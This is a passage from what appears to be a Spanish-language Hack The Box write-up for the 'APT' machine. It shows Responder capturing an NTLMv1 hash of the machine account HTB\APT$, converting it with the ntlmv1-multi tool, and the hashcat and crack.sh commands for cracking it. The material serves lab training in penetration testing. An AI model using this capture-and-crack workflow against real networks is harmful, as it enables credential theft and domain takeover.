 ```null

[+] Current Session Variables:
    Responder Machine Name     [WIN-0IQLBIYXK9X]
    Responder Domain Name      [HS45.LOCAL]
    Responder DCE-RPC Port     [47475]

[+] Listening for events...

[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:8C6A39A474B8156531371866568DFB4E28E6801E56216F3C:8C6A39A474B8156531371866568DFB4E28E6801E56216F3C:bcb02bf820bb9952
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[+] Exiting...
```

Pero claro, este es no es un hash NetNTLMv1, pero si que lo puedo adaptar y convertirlo con la herramienta ntlmv1-multi

```null
git clone https://github.com/evilmog/ntlmv1-multi
```

Para ejecutarlo:

```null
python3 ntlmv1.py --ntlmv1 'APT$::HTB:8C6A39A474B8156531371866568DFB4E28E6801E56216F3C:8C6A39A474B8156531371866568DFB4E28E6801E56216F3C:bcb02bf820bb9952'
Hashfield Split:
['APT$', '', 'HTB', '8C6A39A474B8156531371866568DFB4E28E6801E56216F3C', '8C6A39A474B8156531371866568DFB4E28E6801E56216F3C', 'bcb02bf820bb9952']

Hostname: HTB
Username: APT$
Challenge: bcb02bf820bb9952
LM Response: 8C6A39A474B8156531371866568DFB4E28E6801E56216F3C
NT Response: 8C6A39A474B8156531371866568DFB4E28E6801E56216F3C
CT1: 8C6A39A474B81565
CT2: 31371866568DFB4E
CT3: 28E6801E56216F3C

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 28E6801E56216F3C bcb02bf820bb9952

To crack with hashcat create a file with the following contents:
8C6A39A474B81565:bcb02bf820bb9952
31371866568DFB4E:bcb02bf820bb9952

echo "8C6A39A474B81565:bcb02bf820bb9952">>14000.hash
echo "31371866568DFB4E:bcb02bf820bb9952">>14000.hash

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset 14000.hash ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
$NETLM$bcb02bf820bb9952$8C6A39A474B8156531371866568DFB4E28E6801E56216F3C
```
